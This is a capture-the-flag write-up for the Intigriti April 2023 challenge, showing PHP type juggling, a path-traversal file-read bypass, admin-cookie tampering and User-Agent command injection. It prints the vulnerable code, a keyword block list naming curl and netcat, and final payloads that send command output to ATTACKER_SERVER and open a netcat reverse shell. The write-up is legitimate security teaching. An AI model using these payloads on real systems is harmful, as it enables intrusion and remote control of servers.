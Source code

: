 ```yaml
---
name: Intigriti April Challenge (2023)
authors: strangemonkey
category: Command Injection, LFI, RCE, Type Juggling
link: https://challenge-0423.intigriti.io
description: Writeup for the Intigriti April 2023 challenge 💥
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# 04-23: We Like to Sell Bricks

| Name                                                                    | Authors                                              | Category                                   |
| ----------------------------------------------------------------------- | ---------------------------------------------------- | ------------------------------------------ |
| [Intigriti April Challenge (2023)](https://challenge-0423.intigriti.io) | [strangemonkey](https://twitter.com/strangeMMonkey1) | Type Juggling, Command Injection, LFI, RCE |

## Video Walkthrough

[![PHP Type Juggling, LFI and Command Injection - Solution to April '23 Challenge](https://img.youtube.com/vi/9TCLI04vlvg/0.jpg)](https://www.youtube.com/watch?v=9TCLI04vlvg "PHP Type Juggling, LFI and Command Injection - Solution to April '23 Challenge")

## Challenge Description

> Find the flag and win Intigriti swag.

## Useful Resources

-   [Type Juggling](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md)
-   [Command Injection](https://portswigger.net/web-security/os-command-injection)
-   [Command Injection Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md)
-   [LFI Cheatsheet](https://highon.coffee/blog/lfi-cheat-sheet)

## Community Writeups

1. [dnny](https://hackmd.io/@dnny/HyHWXQ6Q2)
2. [jorenverheyen](https://jorenverheyen.github.io/intigriti-april-2023.html)
3. [kevinengstrom](https://github.com/KevinEngstrom92/0423.intigriti.io_writeup/blob/main/writeup.md)
4. [sgrum0x](https://www.youtube.com/watch?v=U9AbhUMdpfY)
5. [n25sec](https://n25.uk/2023-05-01-intigriti-challenge-0423)
6. [ilnumero6](https://medium.com/@ilnumero6/intigriti-challenge-0423-write-up-9ed04997e4b3)
7. [k1ng_pr4wn](https://k1ngpr4wns-world.ghost.io/intigriti-april-2023-challenge)
8. [lyubo_tsirkov](https://github.com/lyubotsirkov/writeups/blob/main/intigriti-0423-solution.md)

## Solution

Credentials are provided to log in as a normal user; `strange:monkey`.

### Part 1 (Type Juggling)

The intended path is to check the cookies and see the `account_type` which determines the account role.

On the backend, the MD5 hash of the `account_type` cookie is checked to see if the user has access to exclusive (pro) features:

```php
$query = $pdo->prepare("SELECT account_type FROM users WHERE username = 'admin'");
$query->execute(array());
$account_type = $query->fetch()['account_type'];
if (isset($_COOKIE["account_type"])) {
	if (md5($_COOKIE['account_type']) == md5($account_type)) {
		echo '<div>';
		include 'custom_image.php';
		echo '<h3 id="custom_image.php - try to catch the flag.txt ;)">A special golden wall just for Premium Users ;) </h3><img src="resources/happyrating.png">$ FREE4U<a class="button" href="">View details</a></div>';
	}
}
```

However, there is a [type juggling vulnerability](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md) meaning that an attacker can simply generate an MD5 hash that begins with `0e`, e.g. `RSnakeUecYwT6N2O9g --> 0e126635149374886577950106830662` ([more example hashes](https://github.com/spaze/hashes/blob/master/md5.md)).

This is because `when hashes start with "0e" (or "0..0e") only followed by numbers, PHP will treat the hash as a float`, meaning that loose comparisons, e.g. `0e126635149374886577950106830662 == "0"` return true .

According to the SQL DB, the admin role has a hash beginning with `0e`, e.g. `('admin','af1_2@df223g-$swea','RSnakeXKPLlGdf2gYf'),`. Therefore, replacing the cookie with one of these magic values will give the attacker access to new content.

_Note: to help players along, a hint is also provided in the HTML comments of `index_error.php`, which will display in error message:_ `dev TODO : remember to use strict comparison`

Viewing the source of the new `dashboard.php` will reveal a comment:

```html
<h3 id="custom_image.php - try to catch the flag.txt ;)"></h3>
```

Alternatively, players could conduct some content discovery and parameter fuzzing to get to the hidden `/custom_image.php` endpoint.

### Part 2 (Fuzz -> LFI)

If the player fuzzes the parameters for the `custom_image.php` endpoint, they'll find https://challenge-0423.intigriti.io/custom_image.php?file= produces a `Permission denied!` error.

```python
wfuzz -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u https://challenge-0423.intigriti.io/custom_image.php?FUZZ= --hh 294753
```

The endpoint is vulnerable to LFI _but_ `../../` are filtered and a simple regex will block `www/web/images`:

```php
function getImage()
{
  $file = 'www/web/images/goldenwall4admin.jpg';

  if (isset($_GET['file'])) {
    $file = $_GET['file'];
  }

  while (true) {
    if (strpos($file, "../") === false) { //OLD php version
      //if(str_contains($file,"../") === false){ //new php version
      break;
    }
    $file = str_replace("../", "", $file);
  }

  if (strtolower(PHP_OS) == "windows") {
    $file = str_replace("/", "\\", $file);
  } else {
    $file = str_replace("\\", "/", $file);
  }

  $regex = 'www/web/images';
  $pos = strpos($file, $regex);
  if ($pos === false) {
    echo "Permission denied!";
  } else {
    $imageData = base64_encode(file_get_contents($file));
    $src = 'data: image/jpeg;base64,' . $imageData;

    echo '<img src="' . $src . '">';
  }
}
getImage();
```

The player needs to bypass this, e.g. with https://challenge-0423.intigriti.io/custom_image.php?file=www/web/images/..\..\..\flag.txt

This will load a corrupted image, by copying the base64 of the image from the html and decrypting it you can get the content of this file:

```html
<img
    src="data: image/jpeg;base64,SGV5IE1hcmlvLCB0aGUgZmxhZyBpcyBpbiBhbm90aGVyIHBhdGghIFRyeSB0byBjaGVjayBoZXJlOgoKL2U3ZjcxN2VkLWQ0MjktNGQwMC04NjFkLTQxMzdkMWVmMjlhYi85NzA5ZTk5My1iZTQzLTQxNTctODc5Yi03OGI2NDdmMTVmZjcvYWRtaW4ucGhwCg=="
/>
```

Decoded:

```txt
Hey Mario, the flag is in another path! Try to check here:

/e7f717ed-d429-4d00-861d-4137d1ef29ab/9709e993-be43-4157-879b-78b647f15ff7/admin.php
```

### Part 3 (Command Injection -> RCE)

Now the player has a new endpoint to visit: https://challenge-0423.intigriti.io/e7f717ed-d429-4d00-861d-4137d1ef29ab/9709e993-be43-4157-879b-78b647f15ff7/admin.php

Whenever you visit this endpoint, as you are not an admin, you will be redirected to the login page.

Since the redirect is done incorrectly, loading the page content in the response and adding a simple location header, we have two possible ways to display the page.

1. Response manipulation; just change the 302 to 200 and remove the `location` header with burp (match and replace), or simply intercepting the response and editing it manually.
2. Edit the `username` cookie and set it from `strange` to `admin`, since the checking for the admin page is performed only on that cookie (weak).

Each time the admin page is loaded, the site logs the `User-Agent` (as hinted in the logs endpoint). Since the user agent is saved by executing a terminal command, that header is vulnerable to command injection.

There are some security checks, such as removing some characters, spaces, and some functions but locked functions can be easily bypassed, e.g. `cucurlrl` will become `curl`:

```php
$user_agent = $_SERVER['HTTP_USER_AGENT'];

#filtering user agent
$blacklist = array( "tail", "nc", "pwd", "less", "ncat", "ls", "netcat", "cat", "curl", "whoami", "echo", "~", "+",
 " ", ",", ";", "&", "|", "'", "%", "@", "<", ">", "\\", "^", "\"",
"=");
$user_agent = str_replace($blacklist, "", $user_agent);

shell_exec("echo \"" . $user_agent . "\" >> logUserAgent");
```

As for the spaces, one way to bypass them is to use `${IFS}` or `{ls,-la}` (commas will be replaced with spaces).

A simple payload to run a RCE would be to put this in your user agent:

```bash
`cucurlrl${IFS}http://ATTACKER_SERVER/?q=$(whoami)`
```

For a shell:

```bash
`nncc${IFS}ATTACKER_SERVER${IFS}4200${IFS}-e${IFS}/bin/bash`
```
